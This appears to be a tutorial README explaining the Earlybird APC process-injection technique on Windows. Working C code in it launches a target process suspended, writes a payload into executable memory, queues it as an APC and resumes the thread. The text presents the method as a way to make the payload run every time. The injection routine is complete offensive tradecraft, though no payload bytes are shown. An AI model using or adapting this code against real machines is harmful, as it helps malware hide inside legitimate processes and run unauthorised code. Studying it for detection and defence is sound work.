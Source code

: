 # Earlybird Injection
Earlybird injection is an improvement over the **APC Injection** Technique. The most important drawback of the **APC Injection** technique was that the program entered into a _Wait-and-Pray_ state, where we could only hope that our payload would get executed. That is not very reliable as there is a fair chance that the payload might not even be executed. 

This is where **Earlybird Injection** comes in handy by making sure that our payload is triggered every time. To understand how the technique works, let's jump directly into the code. 

## The Code
Lets begin with the `main()` function:

```c
    printf("[i] Spawing and injecting into:\t%s\n", TARGET);
    int result = inject_earlybird();
    printf("[i] Injection Complete!\n");
    return 0;
```

The first difference we notice is that we do not have a `find_pid()` function like other examples. This is because we _launch_ the target process instead of injecting into an already running process. So, let's look into the `inject_earlybird()` function:

```c
int inject_earlybird() {
    int pid = 0;
    DWORD bWritten = 0;
    HANDLE hProc = NULL;
    STARTUPINFO si;
    PROCESS_INFORMATION pi;
    void * pRemoteCode;
    ZeroMemory( &si, sizeof(si) );
    ZeroMemory( &pi, sizeof(pi) );
    si.cb = sizeof(si);
    CreateProcessA(0, TARGET, 0, 0, 0, CREATE_SUSPENDED, 0, 0, &si, &pi);
    printf("[i] Started Process with PID: %d and ThreadId: %d\n", pi.dwProcessId, pi.dwThreadId);
    pRemoteCode = VirtualAllocEx(pi.hProcess, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
    WriteProcessMemory(pi.hProcess, pRemoteCode, (PVOID) payload, (SIZE_T) payload_len, (SIZE_T *)&bWritten);
    DWORD dResult = QueueUserAPC((PAPCFUNC)pRemoteCode, pi.hThread, NULL);
    ResumeThread(pi.hThread);
    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);
    return 0;
}
```